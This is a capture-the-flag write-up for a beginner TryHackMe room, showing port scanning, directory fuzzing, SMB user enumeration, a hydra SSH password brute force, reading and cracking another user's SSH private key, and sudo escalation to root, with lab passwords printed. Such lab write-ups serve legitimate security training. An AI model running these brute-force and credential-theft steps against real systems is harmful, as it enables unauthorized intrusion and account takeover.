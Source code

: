 # Basic-Pentesting

**IP:** 10.10.237.124  
**Platform:** THM  
**Difficulty:** Easy  
**OS:** Linux  
**Date:** 31/05/2025

## Summary

A well-rounded, beginner friendly room that involves some basic brute forcing, hash cracking, service enumeration and Linux privilege escalation techniques. 

## Reconnaissance

```bash
nmap -sC -sV -T4 10.10.237.124 -oA nmap/Basic-Pentesting
```

| Port | Service     | Version                         |
| ---- | ----------- | ------------------------------- |
| 22   | ssh         | OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 |
| 80   | http        | Apache httpd 2.4.18             |
| 139  | netbios-ssn | Samba smbd 3.X - 4.X            |
| 445  | netbios-ssn | Samba smbd 4.3.11-Ubuntu        |
| 8009 | ajp13       |                                 |
| 8080 | http-proxy  | Apache Tomcat/9.0.7             |

## Enumeration

Found a `/development` directory on the Apache webserver (:80).
```bash
ffuf -u http://10.10.237.124:80/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -c -fc 403 -v

[Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 19ms]
| URL | http://10.10.237.124:80/development
| --> | http://10.10.237.124/development/
    * FUZZ: development
```

Downloaded the two text files in the directory `dev.txt` and `j.txt`
```bash
wget -rq -np -nH --cut-dirs=1 --reject "index.html*" -e robots=off http://10.10.237.124/development/;ls

dev.txt  j.txt
```

The file `j.txt ` reveals that J has a weak password
```
cat j.txt  

For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

Found a `/manager` directory on the Tomcat server (:8080) that requires simple authentication.
```bash
ffuf -u http://10.10.237.124:8080/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -c -fc 403 -v

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 26ms]
| URL | http://10.10.237.124:8080/manager
| --> | /manager/
    * FUZZ: manager
```

Used my tool `ridwalk` to find two users `jen` and `kay` on the Samba server (:445) via SMB.
```bash
python3 ~/scripts/ridwalk/ridwalk.py 10.10.137.1                                                   
[*] Target: 10.10.137.1 (Unix/Linux Samba)
[*] Authentication: anonymous
[+] Connection status: OK

RID    Type   Name
--------------------------------------------------
1000   User   kay
1001   User   jan
```

## Exploitation

As `j.txt ` mentioned that J(an) had a weak password, I brute-forced it with hydra.
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.137.1 -t 10 -vI  

...
[22][ssh] host: 10.10.137.1   login: jan   password: armando
...
```

## Privilege Escalation

After logging into the machine as `jan` via SSH, I ran `linpeas.sh` to discover that `kay`'s SSH private `/home/kay/.ssh/id_rsa` is readable as `jan`.
```bash
╔══════════╣ Searching ssl/ssh files
╔══════════╣ Analyzing SSH Files (limit 70)                                                                                                                    
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 /home/kay/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
...
-----END RSA PRIVATE KEY-----
```

Copied it to my local machine.
```bash
ssh2john id_rsa > hash
```

Cracked the passphrase with `ssh2john` and `john`.
```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt

...
beeswax          (id_rsa)     
...
```

SSH'd as `kay` and found a `pass.bak` file in their home directory which revealed their password.
```bash
cat pass.bak 

heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

Used this password to check what the `kay` user could run on the machine as `sudo`, turns out they have full `sudo` permissions!
```bash
sudo -l
[sudo] password for kay: 
...
User kay may run the following commands on basic2:
    (ALL : ALL) ALL
```

Switched to root.
```bash
sudo su -

root@basic2:~#
```

---

#nmap #ffuf #hydra #ssh-bruteforce #smb-enum #ssh2john #linpeas #sudo-privesc